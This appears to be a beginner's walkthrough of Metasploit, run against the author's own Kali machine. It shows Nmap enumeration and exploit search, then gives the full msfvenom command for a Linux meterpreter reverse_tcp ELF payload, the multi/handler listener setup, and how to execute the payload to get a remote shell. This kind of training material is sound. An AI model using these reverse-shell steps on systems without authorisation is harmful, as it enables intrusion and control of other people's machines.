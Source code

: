 The first thing you do in terms of enumeration is using tools like NMap to find out what ports are open and what OS the system is using and what vulnerabilities we can find in order to exploit the system. Once we find the OS or the browser whose exploit is available in msfconsole we go ahead and start the process. 
The things we need to look for when we first find how we are going to exploit the system are the following things: 

$`RHOST -- This is the victim machine` 

$`LHOST -- This is the machine that we are attacking from, in our case the kali Linux` 

$`RPORT -- The target port` 

When we do options after we use any of the exploit, then if we do options we can see the parameters that are required. We must give the machine the parameters that say "required" 

The following steps should be followed in order to exploit a system. 

1. Search for the type of exploit that you will need. The examples for the way to look for exploits is as follows: 

$` search cve:2009 type:exploit platform:linux ` In this search line, we are looking for a CVE for 2009, the type we are looking for is exploit and the platform that we are looking the exploit for is Linux

$`Exploit -- gets you into a system` 

$`Payload -- lets system connect back to you`

When a payload is executed on a system, the listener is waiting. The listener being multi/handler. 

First we will do msfvenom, here we are exploiting our own machine so we do this outside of msfconsole in regular command prompt. 
In order to find the payloads to hack our own kali machine, we will be looking for the linux meterpreter. 

$`msfvenom --list payloads | grep meterpreter` The grep filter searches a file for a particular pattern of characters, and displays all lines that contain that pattern.
reverse_tcp allows the remote computer to connect to you. 

$`msfvenom --list format` This is the different types of formats that you can use. Since we are hacking a Linux machine, we will be using a elf file, which is the executable linux file. 

Creating a payload for your own Machine using MSFVENOM 

$`msfvenom --payload linux/x64/meterpreter/reverse_tcp lhost=10.0.2.15 lport=4444 --format elf -o file1`

In the above statement, we are creating a payload for our own kali machine, we will be using the reverse_tcp payload, lhost being the host machine that we are using. We will be using the listenining port 4444 and our format will be elf since we are using a linux machine and elf is a executable linux file $`-o` is the output and we give the filename file 1 where the output will be saved to. 

Now we open another tab and go inside msfconsole, once we get the $`msf6` we type in $`use exploit/multi/handler` and once we press enter, we wil get the $`msf6 exploit(multi/handler)`We can know if we are inside the exploit if it turns red on the command line. We type info now and it will give us information about it. Once we get that, we type in $`show payloads` and grab the same payload the $`linux/x64/meterpreter/reverse_tcp`. We $`set payload` or we can also use $`setpayload 431 `(number, in our case it was 431 and paste the same payload. We type $`show options` again. We can see that in the Payload options. We need to set lhost, which is required. We set $`set lhost 10.0.2.15` After that just hit $`run`. This has started the listening process. 

We go back to the msfvenom tab, we execute the payload. In order to do so, we need to give it more permission, so we do the $`chmod +x file1`. the chmod command gives the file all the authority it needs to read, write and execute. 
$`./file1` Enter. 
Now we go back to the msfconsole. The meterpreter shell has opened. It has connected to the Kali Machine. If we type $`getuid` we can see that we are inside the kali machine. we can also use $`sysinfo` we can see different things in there. 







